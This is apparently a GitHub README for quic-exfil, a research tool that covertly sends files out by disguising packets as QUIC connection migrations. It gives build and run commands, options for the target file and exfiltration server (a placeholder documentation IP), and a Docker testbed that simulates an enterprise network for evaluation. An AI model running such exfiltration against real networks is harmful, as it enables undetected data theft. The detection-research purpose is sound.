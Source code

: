 # quic-exfil
Covert data exfiltration by mimicking QUIC server-side connection migrations.

![Rust build workflow](https://github.com/thomasgruebl/quic-exfil/actions/workflows/rust.yml/badge.svg)
![Docker build workflow](https://github.com/thomasgruebl/quic-exfil/actions/workflows/docker-image.yml/badge.svg)
![Crates.io](https://img.shields.io/crates/d/quic-exfil?style=plastic)
![Libraries.io dependency status for GitHub repo](https://img.shields.io/librariesio/github/thomasgruebl/quic-exfil?style=plastic)
![GitHub last commit](https://img.shields.io/github/last-commit/thomasgruebl/quic-exfil?style=plastic)
![GitHub](https://img.shields.io/github/license/thomasgruebl/quic-exfil?style=plastic)
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/stargazers">
<img src="https://img.shields.io/github/stars/thomasgruebl/quic-exfil.svg?style=plastic" alt="Stars">
</a>
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/fork">
<img src="https://img.shields.io/github/forks/thomasgruebl/quic-exfil.svg?style=plastic" alt="Forks">
</a>
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/issues">
<img src="https://img.shields.io/github/issues/thomasgruebl/quic-exfil.svg?style=plastic" alt="Issues">
</a>



Add descr on how to install quiche on the base machine -> and start quiche server to listen for benign connection migrations 
./target/release/quiche-server --listen 192.168.100.63:4433 --root html --cert apps/src/bin/cert.crt --key apps/src/bin/cert.key --enable-active-migration


QUIC-exfiltration client-side Wireshark trace (without the required server-side acknowledgments)
* 2a05:d012:8ef:f66:12d3:23ac:6791:a11f is the exfiltration server IP
* Packet 54622 mimics the PATH_CHALLENGE packet

![Alt text](sample_pcap.png "pcap_sample")


## Dependencies

libpcap

Debian/Ubuntu:

```sh
sudo apt install libpcap-dev
```

macOS:

```sh
brew install libpcap
```


## Build

```sh
cargo build --release
```

## Run

```sh
sudo ./target/release/quic-exfil
```

```sh
Usage: quic-exfil [OPTIONS]

Options:
  -i, --interface <INTERFACE>  Network interface name [default: en1]
  -t, --target <TARGET>        Target file to exfiltrate [default: images/sample.jpg]
  -f, --filter <FILTER>        Pcap capture filter [default: udp dst port 443]
  -d, --dst <DST>              Exfiltration server destination IP [default: 192.0.2.100]
  -p, --port <PORT>            Exfiltration server destination port [default: 443]
  -b, --buffer <BUFFER>        Packet buffer. Specifies how many QUIC packets should be captured and analyzed before attempting to send the first exfiltration packet. Required to mimic payload lengths of previously seen traffic [default: 1000]
  -n, --number <NUMBER>        Number of packets to be exfiltrated per simulated connection migration [default: 100]
  -h, --help                   Print help
  -V, --version                Print version

```



## Experimental Testbed

This section describes the experimental setup used to evaluate `quicexfil` in a Docker-based testbed. The testbed aims to simulate a small enterprise network with multiple desktop machines generating QUIC traffic, and controlled benign connection migrations using Cloudflare's `quiche` library.

Docker compose spins up 16 containers running the `quicexfil` binary. Each container is based on [`accetto/xubuntu-vnc-novnc-firefox`](https://hub.docker.com/r/accetto/xubuntu-vnc-novnc-firefox) for a lightweight desktop GUI with Firefox and noVNC support.

Launch the setup:

```sh
docker compose up --build
```

This will build the image and launch 16 instances of the quicexfil container.

You will see console output showing accessible noVNC URLs (e.g., https://172.19.0.8:6901) for each container. These can be opened in your host browser to interact with each container’s desktop environment.

You can connect to each container using the noVNC lite clients, for example:

```sh
https://172.19.0.8:6901
```

Log in with the default password <i>headless</i> and open your browser in each container to manually generate QUIC traffic (e.g., by visiting sites like Cloudflare or Google, which already use the QUIC protocol).

Running the benign QUIC server on the Host VM:

The benign QUIC server was used to create fingerprints of benign connection migrations. The base virtual machine (host) runs the quiche server to listen for and accept QUIC connections (including active migrations):

```sh
./target/release/quiche-server \
  --listen 192.168.100.63:4433 \
  --root html \
  --cert apps/src/bin/cert.crt \
  --key apps/src/bin/cert.key \
  --enable-active-migration
```

Replace <i>192.168.100.63</i> with the IP address of your host machine.

Connect to each container using

```sh
docker exec -it <container_id> bash
```

and then start the benign quiche connection migration script (make sure to adjust the IP address of your quiche server within the [script](https://github.com/thomasgruebl/quic-exfil/blob/main/scripts/benign_conn_migr.sh)):

```sh
./benign_conn_migr.sh
```

In 4 of the 16 containers, the experimental quicexfil tool is manually run to test potential data exfiltration over QUIC:

```sh
./target/release/quic-exfiltration -d "192.0.2.100" -i "eth0"
```

Replace <i>192.0.2.100</i> with the IP address of your exfiltration server.